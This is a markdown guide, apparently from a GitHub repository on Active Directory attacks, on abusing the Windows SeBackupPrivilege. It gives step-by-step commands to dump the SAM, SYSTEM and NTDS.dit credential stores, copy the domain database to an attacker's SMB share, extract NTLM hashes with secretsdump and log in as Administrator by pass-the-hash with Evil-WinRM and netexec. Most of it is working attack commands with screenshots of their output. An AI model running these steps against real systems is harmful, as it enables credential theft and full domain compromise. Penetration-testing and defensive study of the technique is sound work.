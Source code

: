 [Refrence](https://2018.romhack.io/slides/RomHack%202018%20-%20Andrea%20Pierini%20-%20whoami%20priv%20-%20show%20me%20your%20Windows%20privileges%20and%20I%20will%20lead%20you%20to%20SYSTEM.pdf)
# SeBackupPrivilege 
## Overview
The `SeBackupPrivilege` allows users to bypass file and directory permissions to back up the system, including sensitive files like the Security Account Manager (SAM) and Active Directory database (NTDS.dit). Exploiting this privilege enables:

- Extracting NTLM hashes for offline cracking or Pass-the-Hash (PTH) attacks.
- Circumventing NTFS file and directory permissions through the backup application interface.

---

## Method 1: Backup Windows Registry and Extract Local NTLM Hashes

### Tools Used
- **Diskshadow**: Creates copies of active drives.
- **Robocopy**: Copies files and directories.
- **Impacket-secretsdump**: Extracts NTLM hashes.
- **Evil-WinRM**: Used for PTH attacks.

### Steps

1. **Create a temporary directory:**
   ```
   mkdir C:\temp
   ```

2. **Copy the SAM and SYSTEM hives to the temporary directory:**
   ```
   reg save hklm\sam C:\temp\sam.hive
   reg save hklm\system C:\temp\system.hive
   ```

3. **Extract NTLM hashes using Impacket's secretsdump:**
   ```
   impacket-secretsdump -sam sam.hive -system system.hive LOCAL
   ```

4. **Perform a PTH attack using Evil-WinRM:**
   ```
   evil-winrm -i <ip> -u "Administrator" -H "<hash>"
   ```

5. **Optional:** Copy specific files bypassing permissions:
   ```
   robocopy /b c:\users\administrator\desktop\ c:\temp
   ```

---

## Method 2: Extract Active Directory NTDS.dit

### Tools Used
- **wbadmin**: Used for backups.
- **Evil-WinRM**: For downloading extracted files.
- **Linux SMB Server**: For file transfer from Windows to Linux.

### Steps

1. **Prepare an NTFS disk on Kali Linux:**
   - Ensure the disk is formatted with NTFS to store files from the backup. -> [CheckMe](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Support/Create%20NTFS%20Disk%20on%20kali-linux.md)

2. **Set up an SMB server on Kali Linux:**
   - Use `smbserver` to create a shared directory accessible from Windows. -> [CheckMe](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Support/File%20Transfer.md)

3. **Initiate a backup of the NTDS folder using wbadmin:**
   ```powershell
   echo y | wbadmin start backup -backuptarget:\\<linux_ip>\public -include:c:\windows\ntds\
   ```
   - Note: This process can take considerable time.
   - Once it finished you will found the following
     ![Pasted image 20250429230647](https://github.com/user-attachments/assets/00ebb440-bd41-4652-ae4b-1159894e6a99)

4. **Verify backup versions:**
   ```powershell
   wbadmin get versions
   ```
  ![Pasted image 20250429230758](https://github.com/user-attachments/assets/ad3d7839-0e36-4120-968b-343e931fea15)

5. **Recover the NTDS.dit file:**
   ```
   echo Y | wbadmin start recovery -version:<backup_version> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
   ```powershell
   example
   ```powershell
   echo Y | wbadmin start recovery -version:04/30/2025-02:34 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
   ```
  ![Pasted image 20250429231914](https://github.com/user-attachments/assets/1f9173d8-c786-4034-aa38-eedee5641246)

7. **Download the NTDS.dit file using Evil-WinRM:**
   ```powershell
   download ntds.dit
   ```
8. **Create system.hive file adn download it**
   ``` powershell
   reg save hklm\system C:\temp\system.hive
   ```
9. **Extract secrets**
  ``` shell
  secretsdump.py -ntds <ntds.dit> -system <system.hive> Local
  ```
  ![image](https://github.com/user-attachments/assets/392c3522-088f-48e4-bc93-dc094512d7d0)

  with history to get changed credentials:
  ``` shell
  secretsdump.py -ntds <ntds.dit> -system <system.hive> -history Local
  ```
  ![image](https://github.com/user-attachments/assets/e578c8bf-73ea-4411-b89f-f1570dbec664)

10. **Check The Hash**
    ``` shell
    netexec smb $IP -u <'Administrator'> -H <'Hash'> "whoami"
    ```
12.  **Perform a PTH attack using Evil-WinRM:**
   ```
   evil-winrm -i <ip> -u "Administrator" -H "<hash>"
   ```
